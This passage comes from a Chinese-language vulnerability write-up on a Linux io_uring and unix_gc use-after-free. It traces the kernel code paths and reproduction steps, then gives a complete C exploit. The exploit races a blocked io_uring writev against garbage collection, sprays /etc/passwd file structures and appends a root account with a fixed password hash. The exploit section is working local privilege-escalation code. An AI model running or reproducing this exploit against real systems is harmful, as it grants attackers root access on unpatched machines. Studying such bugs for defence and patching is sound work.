「1」对于传进来的列表，遍历其中的 `skb` 进行逐个释放。

```
static inline void __skb_queue_purge(struct sk_buff_head *list)
{
    struct sk_buff *skb;
    while ((skb = __skb_dequeue(list)) != NULL)
        kfree_skb(skb);
}
```

## io\_uring原理

基础分析在上篇文章已经分析过，这里就只展开有关漏洞的部分

### io\_sqe\_files\_register注册文件

主要调用了一个关键函数 `io_sqe_files_scm()` 来进行绑定操作。

```
static int io_sqe_files_register(struct io_ring_ctx *ctx, void __user *arg,
                 unsigned nr_args, u64 __user *tags)
{
//...
    for (i = 0; i < nr_args; i++, ctx->nr_user_files++) {
        if (copy_from_user(&fd, &fds[i], sizeof(fd))) {
            ret = -EFAULT;
            goto out_fput;
        }
        /* allow sparse sets */
        if (fd == -1) {
            ret = -EINVAL;
            if (unlikely(*io_get_tag_slot(ctx->file_data, i)))
                goto out_fput;
            continue;
        }

        file = fget(fd);
        ret = -EBADF;
        if (unlikely(!file))
            goto out_fput;

        /*
         * Don't allow io_uring instances to be registered. If UNIX
         * isn't enabled, then this causes a reference cycle and this
         * instance can never get freed. If UNIX is enabled we'll
         * handle it just fine, but there's still no point in allowing
         * a ring fd as it doesn't support regular read/write anyway.
         */
        if (file->f_op == &io_uring_fops) {
            fput(file);
            goto out_fput;
        }
        io_fixed_file_set(io_fixed_file_slot(&ctx->file_table, i), file);
    }
    //设置SCM_RIGHTS
    ret = io_sqe_files_scm(ctx);
    //...
}
```

### io\_sqe\_files\_scm函数

该函数是 `__io_sqe_files_scm()`的封装，直接看`__io_sqe_files_scm`。

```
static int io_sqe_files_scm(struct io_ring_ctx *ctx)
{
    unsigned left, total;
    int ret = 0;

    total = 0;
    left = ctx->nr_user_files;
    //遍历每个文件
    while (left) {
        unsigned this_files = min_t(unsigned, left, SCM_MAX_FD);

        ret = __io_sqe_files_scm(ctx, this_files, total);
        if (ret)
            break;
        left -= this_files;
        total += this_files;
    }

    //...
}
```

### \_\_io\_sqe\_files\_scm函数

「1」 根据传进来的 `nr` 文件数量进行遍历，使用 `get_file()` 获取 `file` 结构体，文件引用计数 +1，并添加到文件列表中。并对每个文件调用 `unix_inflight` 尝试对每个 `sock` 文件添加飞行计数。

「2」 如果有文件列表有文件，则会把文件列表挂载到 `skb` 上，然后将 `skb` 添加到 io\_uring 自己的 sk\_receive\_queue。最后遍历文件调用 `fput()` 抵消最开始的文件引用计数增加。

```
static int __io_sqe_files_scm(struct io_ring_ctx *ctx, int nr, int offset)
{
    /* 获取io_uring上下文中的socket */
    struct sock *sk = ctx->ring_sock->sk;
    struct scm_fp_list *fpl;
    struct sk_buff *skb;
    int i, nr_files;

    // 文件列表
    fpl = kzalloc(sizeof(*fpl), GFP_KERNEL);
    if (!fpl)
        return -ENOMEM;

    // 分配skb
    skb = alloc_skb(0, GFP_KERNEL);
    if (!skb) {
        kfree(fpl);
        return -ENOMEM;
    }

    skb->sk = sk;
    nr_files = 0;
    fpl->user = get_uid(current_user());

    // 遍历处理文件
    for (i = 0; i < nr; i++) {
        // 通过索引获取 file 结构体指针
        struct file *file = io_file_from_index(ctx, i + offset);

        if (!file)
            continue;
        // get_file 获取 file 结构体，文件引用计数 +1，并添加到文件列表中
        fpl->fp[nr_files] = get_file(file);
        // 尝试对每个 sock 文件添加飞行计数
        unix_inflight(fpl->user, fpl->fp[nr_files]);
        nr_files++;
    }

    if (nr_files) {
        fpl->max = SCM_MAX_FD;
        fpl->count = nr_files;
        UNIXCB(skb).fp = fpl; // fpl 赋值给 skb.fp
        skb->destructor = unix_destruct_scm;// 析构函数
        refcount_add(skb->truesize, &sk->sk_wmem_alloc);
        // 将skb 添加到 ctx->ring_sock->sk->sk_receive_queue(io_uring自己的sk_receive_queue)
        skb_queue_head(&sk->sk_receive_queue, skb);

        for (i = 0; i < nr; i++) {
            struct file *file = io_file_from_index(ctx, i + offset);

            if (file)
                fput(file);//抵消上面使用的 get_file(file)
        }
    } else {
        kfree_skb(skb);
        free_uid(fpl->user);
        kfree(fpl);
    }
    return 0;
}
```

在之前分析了 `unix_inflight` 和 `sk_receive_queue` 再来看注册文件的一个过程，会显得有点奇怪，因为我们之前分析过`sk_receive_queue` 为对端未接受文件的列表，当时现在挂载到自己的 `ctx->ring_sock->sk->sk_receive_queue` 上，在这样操作之后也导致了非法释放 `filp` 的操作，比如现在 io\_uring->sk\_receive\_queue = {s[1],fd}; s[1]->sk\_receive\_queue={io\_uring\_fd};这样造成的结果就是io\_uring和s[1]完成**闭环**，释放资源的时候非法释放了`fd`。

### io\_submit\_sqe提交SQE

函数会先初始化IO请求，然后进行一些link的操作这里忽略，重点关注`io_queue_sqe()`会尝试执行。因为非法释放 `filp` ，我们可以采用 `dirty cred` 的手法往"/etc/passwd"中写入数据，而 io\_uring 中有自带的写任务，所以我们跟一下 io\_uring 如何完成IORING\_OP\_WRITEV 类型任务。

```
/* io_uring/io_uring.c */
static int io_submit_sqe(struct io_ring_ctx *ctx, struct io_kiocb *req,
             const struct io_uring_sqe *sqe)
    __must_hold(&ctx->uring_lock)
{
    struct io_submit_link *link = &ctx->submit_state.link;
    int ret;
    // 初始化IO请求
    ret = io_init_req(ctx, req, sqe);
    //...

    //...link操作
    
    io_queue_sqe(req);// 尝试执行
    return 0;
}
```

调用链如下

```
io_queue_sqe
    __io_queue_sqe
        io_issue_sqe
            io_write
```

需要注意的是文件鉴权在 `io_write()`中的 `io_rw_init_file()` 中,而在之前是在 `io_submit_sqe()` 中就完成鉴权。在一定程度上缓减了 `dirty cred`。



## 漏洞复现

概况：在非法释放后，实际写之前，喷射大量 `"/etc/passwd"` 文件，覆盖由**gc回收**非法释放的`file`结构体，实际写恶意数据会到 `"/etc/passwd"` 文件。

「1」 使用 `socketpair()` 申请一对`socket`，文件描述符分别为`s[0]`、`s[1]`。默认计数引用都为 `1` 。

「2」 调用 `io_uring_setup`（模式使用SQ轮询） ，初始化 `io_uring` ,文件描述符为`io_fd` ,引用计数为 `1` 。

「3」 打开一个普通可读写文件，比如 `"/tmp/mowen"` ,文件描述符为`file_fd`,初始状态引用计数为  `1`。

「4」 调用 `io_uring_register` 中的注册文件模式 `IORING_REGISTER_FILES` ，来注册 `s[1]`、`file_fd`。在注册的时候文件引用计数会 `+1` 。其中还会调用 `unix_inflight` 对`sock`类 `s[1]` 飞行引用计数 `+1` 。值得注意的是: **会将** `file_fd` **和** `s[1]` **放进同一个** `skb` 。

* `s[1]`：引用计数 `2` ,飞行引用计数 `1` 。
* `file_fd`：引用计数 `2` ，没有飞行计数。「4」——调试图，当前 `sk` 为 `io_uring` 自带的，和之前的io\_sqe\_files\_register配合分析，当前io\_uring自己的sk\_receive\_queue，一共有两个文件，`skb` 只有一个。

「5」 关闭 `file_fd` ，这时 `file_fd` 引用计数为 `1`，在 `skb` 中。

「5」——调试图，这时filp并未被释放，仍然在 `skb` 中。



通过f\_op指针判断 `0xffff8881018a7900`  所在slub 为 file\_fd的file结构体。




「6」 往 `s[0]`，发送 `io_fd`，即通过 `s[0]`把 `io_fd` 发送给 `s[1]`,发送过程会调用 `unix_inflight` ，因为 `io_uring` 属于 `sock` 类，故飞行计数会 `+1` ，并且引用计数也会 `+1` 。

* `io_fd`：引用计数 `2` ,飞行引用计数 `1` 。

「7」依次关闭 `s[0]、s[1]` ，关闭后引用计数会 `-1`。

* `s[0]`：引用计数为 `0` ,被释放。
* `s[1]`：引用计数 `1` ，飞行计数 `1`，暂时不会被释放。

「8」 使用线程占用文件 `inode` 锁——往 `"/tmp/mowen"` 中写入大量数据，占用 `inode` 文件锁，致使其他进程无法对该文件进行操作。

「9」 提交 `io_uring` 任务，使用 `IORING_OP_WRITEV` 提交 `writev` 任务，往 `"/tmp/mowen"`  中写入恶意数据(新root)，因为 `inode` 锁的存在，这个任务会阻塞在——拷贝数据并检查权限后，实际写之前。

「10」 造成**gc回收**的非法释放，先关闭 `io_uring` ，调用 `io_uring_queue_exit()`关闭 `io_fd` ,过程中引用计数 `-1` 。

`io_fd`：引用计数 `1` ,飞行引用计数 `1` ，不会被释放。

「11」关闭一个 `socket` ，触发 `unix_gc()`,这个时候只要满足 **引用计数==飞行计数** `unix_gc`就会从`sk_receive_queue`中取下并调用`__skb_queue_purge`释放对应的`skb`，其中会**减少飞行引用计数**并调用`fput()`,**减少引用计数**。

* `io_fd` 的 `skb` 中只有自己，文件引用计数 `-1`,飞行计数 `-1` ，这时引用计数 `0` ,飞行引用计数 `0` ，被释放没问题。
* 因为之前往`s[1]`中发送了 `file_fd` ,所以 `io_fd`的 `sk->sk_receive_queue` 中保包含了 `s[1]、file_fd`。s[1] 也被释放，但file\_fd 在sock\_release()中调用 fput(),对应 filp 也被释放 。但上面还有因阻塞而没有完成的任务，所以导致任务阻塞完毕之后尝试写入时访问了已经被释放的文件结构体，造成 UAF 。


「12」大量的`"/etc/passwd"`文件，覆盖这个块内存 ，就可以写到`"/etc/passwd"`文件。



## exp

```
/* 
    gcc exp.c -static -l:liburing.a -o ./exp_mowen -lpthread
*/
#define _GNU_SOURCE 
#include<stdio.h>
#include<sys/types.h>
#include<sys/stat.h>
#include<fcntl.h>
#include <stdlib.h>
#include <string.h>
#include<unistd.h>
#include<sys/mman.h>
#include<sys/socket.h>
#include<signal.h>
#include<pthread.h>
#include<linux/userfaultfd.h>
#include <sys/ioctl.h>
#include<syscall.h>
#include<poll.h>
#include <semaphore.h>
#include <sched.h>
#include<liburing.h>
#pragma pack(16)
#define __int64 long long
#define CLOSE printf("\033[0m
");
#define RED printf("\033[31m");
#define GREEN printf("\033[36m");
#define BLUE printf("\033[34m");
#define YELLOW printf("\033[33m");
#define _QWORD unsigned long
#define _DWORD unsigned int
#define _WORD unsigned short
#define _BYTE unsigned char
#define COLOR_GREEN "\033[32m"
#define COLOR_RED "\033[31m"
#define COLOR_YELLOW "\033[33m"
#define COLOR_BLUE "\033[34m"
#define COLOR_DEFAULT "\033[0m"
#define showAddr(var)  dprintf(2, COLOR_GREEN "[*] %s -> %p
" COLOR_DEFAULT, #var, var); 
#define logu(fmt, ...) dprintf(2,  "[$] " fmt "
" , ##__VA_ARGS__)
#define logd(fmt, ...) dprintf(2, COLOR_BLUE "[*] %s:%d " fmt "
" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define logi(fmt, ...) dprintf(2, COLOR_GREEN "[+] %s:%d " fmt "
" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define logw(fmt, ...) dprintf(2, COLOR_YELLOW "[!] %s:%d " fmt "
" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define loge(fmt, ...) dprintf(2, COLOR_RED "[-] %s:%d " fmt "
" COLOR_DEFAULT, __FILE__, __LINE__, ##__VA_ARGS__)
#define die(fmt, ...)                      \
    do {                                   \
        loge(fmt, ##__VA_ARGS__);          \
        loge("Exit at line %d", __LINE__); \
        exit(1);                           \
    } while (0)
#define debug(fmt, ...)                      \
    do {                                     \
        loge(fmt, ##__VA_ARGS__);            \
        loge("debug at line %d", __LINE__);  \
        getchar();                           \
    } while (0)
   
int stat_write;// 0(开始写之前) 、1(正在写)、2(写完成)
struct io_uring ring;

void binary_dump(char *desc, void *addr, int len);
/*  发送文件描述符
    @s: socket文件描述符
    @fd: 文件描述符
*/
int sendfd(int s,int fd){
    struct msghdr msg;// 信息头结构
    struct cmsghdr * cmsg; // 控制信息头（controlmsg）
    char buf[4096];
    int fds[1]={ fd };
    // 分配msg操作空间
    memset(&msg,0,sizeof(msg));
    memset(buf,0,sizeof(buf));

    msg.msg_control=buf;
    msg.msg_controllen=sizeof(buf);

    // 赋值操作空间
    cmsg=CMSG_FIRSTHDR(&msg);
    cmsg->cmsg_level=SOL_SOCKET;
    cmsg->cmsg_type=SCM_RIGHTS;
    cmsg->cmsg_len=CMSG_LEN(sizeof(fds));
    memcpy(CMSG_DATA(cmsg),fds,sizeof(fds));

    // 更新msg长度
    msg.msg_controllen=CMSG_SPACE(sizeof(fds));
    // 使用 sendmsg 发送消息（flags=0 表示默认行为）
    return sendmsg(s,&msg,0);
    
}

// 写 (0x80000 * 0x1000) 字节到 "/tmp/mowen"
void* slow_write(){
    puts("[slow_write] 开始慢速写 ————>> 占inode锁");

    int fd=open("/tmp/mowen",O_RDWR);
    if(fd<0) die("[slow_write] open failed");

    size_t buf_len=0x80000/0x20*0x1000;

    size_t* addr=mmap(0,buf_len,PROT_READ|PROT_WRITE,
                    MAP_ANONYMOUS|MAP_PRIVATE,0,0);
    if(addr<0)die("[slow_write] mmap failed");
    logi("[slow_write] mmap addr -> %p",addr);

    memcpy(addr,"mowen",5);
    
    struct iovec iov[20];
    for (size_t i = 0; i < 20; i++)
    {
        iov[i].iov_base=addr;
        iov[i].iov_len=buf_len;
    }
    
    stat_write=1;

    if(writev(fd,iov,20)<0){
        logw("[!] slow write");
    }

    stat_write=2;
    puts("[slow_write] write done ");
    close(fd);
    sleep(10);
    exit(0);
}

void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
    BLUE;printf("[*] bind_cpu(%d)",core);CLOSE;
}

int main(void){ 
//账号：mowen , 密码： mowen
    static char hacker_buf[]="mowen:$1$mowen$8LVoOtcEpkRKrOBeMi9h80:0:0:/root:/root:/bin/sh
";
    int io_fd,file_fd;
    int s[2],rfd[2];
    pthread_t t;
    int ret,orig_size;
    struct stat st;
    struct iovec iov[1];
    struct io_uring_sqe* sqe;
    stat_write=0;

    BLUE;puts("[*]start");CLOSE;
    bind_cpu(0);

    stat("/etc/passwd",&st);
    orig_size=st.st_size;
    logi("/etc/passwd size -> %d",orig_size);

    logu("step 1 -> 申请一对 `socket` ");
    socketpair(AF_UNIX,SOCK_DGRAM,0,s);

    logu("step 2 -> 注册 io_uring ");
    // 使用SQ轮询
    
    ret=io_uring_queue_init(32,&ring,IORING_SETUP_SQPOLL);
    sqe=io_uring_get_sqe(&ring);
    if(ret<0 || sqe< 0){
        logw("failed -> io_uring_queue_init or io_uring_get_sqe");
    }
    io_fd=ring.ring_fd;
    logi("io_fd -> %d",io_fd);

    logu("step 3、4 -> 打开文件并注册 s[1]、file_fd ");
    file_fd=open("/tmp/mowen",O_RDWR|O_APPEND|O_CREAT,0644);
    //rfd { s[1] , file_fd } 这里必须要使用这个顺序
    rfd[0]=s[1];// 注册 s[1],后面要使用s[0]往 s[1] 发送 io_fd
    rfd[1]=file_fd;
    io_uring_register_files(&ring,rfd,2);
    // 注册好之后 s[1]和file_fd 同属一个 skb
    /*
        s[0]    : ref_count = 1
        s[1]    : ref_count = 2 , inflight =1
        file_fd : ref_count = 2
        io_fd   : ref_count = 1  
        io_uring.sk_recvive_queue -> rfd {s[1], file_fd}
    */
    logu("step 5 -> 关闭file_fd");
    close(file_fd);

    // 关闭 file_fd : 引用计数 1，暂时不会被释放
    // s[0] —————— >     io_fd      ———————>  s[1] ,通过s[0]往s[1]发送io_fd
    // s[1]->sk->sk_receive_queue 会保留 io_fd
    logu("step 6 -> 发送 io_fd ");
    sendfd(s[0],io_fd);

    /*
        s[0]    : ref_count = 1
        s[1]    : ref_count = 2 , inflight =1
        file_fd : ref_count = 1
        io_fd   : ref_count = 2 , inflight =1
        io_uring.sk_recvive_queue -> rfd {s[1], file_fd}
        s[1].sk_receive_queue     -> io_fd  (s[1]未接受到io_fd，挂载sk_receive_queue)
    */

    logu("step 7 -> 关闭 s[0]/s[1] ");
    close(s[0]);
    close(s[1]);

    /*
        s[0]    : ref_count = 0 <——————> free
        s[1]    : ref_count = 1 , inflight =1
        file_fd : ref_count = 1
        io_fd   : ref_count = 2 , inflight =1
        io_uring.sk_recvive_queue -> rfd {s[1], file_fd}
        s[1].sk_receive_queue     -> io_fd  (s[1]未接受到io_fd，挂载sk_receive_queue)
    */
    logu("step 8 -> 启动slow_write，占inode ");
    pthread_create(&t,NULL,slow_write,NULL);
    sleep(1);//等待inode锁住，然后提交writev任务，提交恶意信息(新root)
    while (stat_write==0){}
    //启动slow_write后就会锁住inode，这个时候提交任务
    logu("step 9 -> 提交SEQ");
    iov[0].iov_base=hacker_buf;
    iov[0].iov_len=strlen(hacker_buf);
    // 设置SQE
    sqe->opcode = IORING_OP_WRITEV;
    sqe->fd = 1;
    sqe->addr = (long long)iov;
    sqe->len = 1;
    sqe->flags = IOSQE_FIXED_FILE;
    sleep(1);
    // 提交任务
    if(io_uring_submit(&ring)<0){
        die("failed io_uring_submit");
    }
    sleep(1);

    logu("step 10 -> 尝试触发 unix_gc() ");
    //关闭io_uring
    io_uring_queue_exit(&ring);
    close(socket(AF_UNIX, SOCK_DGRAM, 0));//触发unix_gc

    /*触发unix_gc
        s[0]    : ref_count = 0 <——————> free
        s[1]    : ref_count = 1 , inflight =1  <——————>  现在释放
        file_fd : ref_count = 1 <——————>  现在释放
        io_fd   : ref_count = 1 , inflight =1 <——————>  现在释放
        io_uring.sk_recvive_queue -> rfd {s[1], file_fd}
        s[1].sk_receive_queue     -> io_fd  
        非法释放 file_fd
    */

    logu("Spray /etc/passwd");
    for (int i = 0; i < 700; i++)
    {
        if(open("/etc/passwd",0)<0){
            loge("failed open at [%d]",i);
        }
    }

    logu("等待/etc/passwd被篡改");
    while (orig_size==st.st_size)
    {
       stat("/etc/passwd", &st);
       sleep(1);
    }
    
    logi("su mowen to get root");

    BLUE;puts("[*]end");CLOSE;
   return 0;
}

```
